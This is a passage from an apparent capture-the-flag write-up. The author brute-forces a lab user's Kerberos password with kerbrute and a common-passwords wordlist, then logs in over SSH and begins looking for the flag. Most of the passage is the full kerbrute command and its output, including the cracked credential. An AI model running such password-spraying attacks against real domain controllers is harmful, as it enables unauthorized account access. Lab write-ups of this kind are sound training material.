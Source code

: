 And crack the password of `anna`

```
peter@server1:~$ ./kerbrute_linux_amd64 --help
(...)
  bruteuser     Bruteforce a single user's password from a wordlist

peter@server1:~$ ./kerbrute_linux_amd64 bruteuser --help
Usage:
  kerbrute bruteuser [flags] <password_list> username
(...)
      --dc string       The location of the Domain Controller (KDC) to target. If blank, will lookup via DNS
  -d, --domain string   The full domain to use (e.g. contoso.com)
  -o, --output string   File to write logs to. Optional.
      --safe            Safe mode. Will abort if any user comes back as locked out. Default: FALSE
  -t, --threads int     Threads to use (default 10)
  -v, --verbose         Log failures and errors

peter@server1:~$ cat /etc/krb5.conf 
(...)
  kdc = kerberos.CHALLENGE-DAF98FA3-34A9-4E5E-81F7-78BDD19DC6FE.SVC.CLUSTER.LOCAL

peter@server1:~$ ./kerbrute_linux_amd64 --safe -d CHALLENGE-DAF98FA3-34A9-4E5E-81F7-78BDD19DC6FE.SVC.CLUSTER.LOCAL --dc kerberos.CHALLENGE-DAF98FA3-34A9-4E5E-81F7-78BDD19DC6FE.SVC.CLUSTER.LOCAL bruteuser 10k-most-common.txt anna
(...)
2024/09/07 16:34:34 >  [+] VALID LOGIN:	 anna@CHALLENGE-DAF98FA3-34A9-4E5E-81F7-78BDD19DC6FE.SVC.CLUSTER.LOCAL:annabell
```

So, password of `anna` is **`annabell`**

# anna@server1

The known pattern continues:

```
peter@server1:~$ ssh anna@server1
anna@server1's password: 

anna@server1:~$ ls -la
(...)
-rw-r--r-- 1 root root   15 Jun  3 11:41 notes.txt

anna@server1:~$ cat notes.txt 
TODO: get flag
```

At this point I got slightly stuck, as I thought the flag will be hidden somewhere in Kerberos
(so, I tried things like `listprincs`, `get_strings` in `kadmin` etc.

But, it ended up simpler than that - there is a `flag` user:
